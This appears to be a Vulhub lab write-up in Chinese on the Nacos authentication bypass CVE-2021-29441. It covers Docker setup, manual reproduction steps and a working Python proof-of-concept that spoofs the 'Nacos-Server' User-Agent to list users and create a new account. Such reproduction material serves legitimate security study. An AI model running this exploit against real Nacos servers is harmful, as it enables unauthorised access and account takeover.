



# Nacos 认证绕过漏洞 CVE-2021-29441

## 漏洞描述

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在 nacos 在进行认证授权操作时，会判断请求的 user-agent 是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的 user-agent 设置为 Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

参考链接：

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## 环境搭建

Vulhub 运行漏洞环境：

```
docker-compose up -d
```

环境运行后，会开放 3306、8848、9848、9555 端口，在本次漏洞利用中，我们只需要用到 8848 端口，即 web 访问端口。

执行漏洞验证过程时，请先访问 8848 端口，确认开放，某些情况下 nacos 服务会启动失败（无法连接数据库导致），可以重启 nacos 服务或者重启所有服务。

```
docker-compose restart nacos
```

## 漏洞复现

漏洞利用过程如下：

1. 修改 User-Agent 的值为 Nacos-Server 到请求包中
2. 访问 `http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9` 查看状态码是否为 200，且内容中是否包含 `pageItems`
3. 使用 POST 方式访问 `http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub` 添加一个新用户
4. 访问 `http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9` 获取已有的用户列表
5. 访问 `http://target:8848/nacos/`，使用添加的新用户 (vulhub/vulhub) 进行登录

**检测漏洞是否存在**

添加 Header 头后访问 `http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9` 可以看到返回值为 200，且内容中是否包含 `pageItems`。



**添加新用户**

添加 Header 头后使用 `POST` 方式请求 `http://target:8848/nacos/v1/auth/users?username=test&password=test` 添加一个新用户，账号密码都为 `test`。


**使用新建的账号进行登录**

使用账号密码 `test/test` 登录。



## 漏洞 POC

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import sys

import requests

headers = {
    "User-Agent": "Nacos-Server"
}


def check(target):
    endpoint = "/nacos/v1/auth/users?pageNo=1&pageSize=9"
    r = requests.get(target.strip("/") + endpoint, headers=headers)
    if r.status_code == 200 and "pageItems" in r.text:
        print target + " has vulnerabilities"
        return True
    print target + "has not vulnerabilities"
    return False


def add_user(target):
    add_user_endpoint = "/nacos/v1/auth/users?username=vulhub&password=vulhub"

    r = requests.post(target.strip("/") + add_user_endpoint, headers=headers)
    if r.status_code == 200 and "create user ok" in r.text:
        print "Add User Success"
        print "New User Info: vulhub/vulhub"
        print "Nacos Login Endpoint: {}/nacos/".format(target)
        exit(1)

    print "Add User Failed"


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print "Please specify the target: python poc.py http://xxxxx:8848"
        exit(-1)
    if check(sys.argv[1]):
        add_user(sys.argv[1])
```

```
python poc.py http://target:8848
```


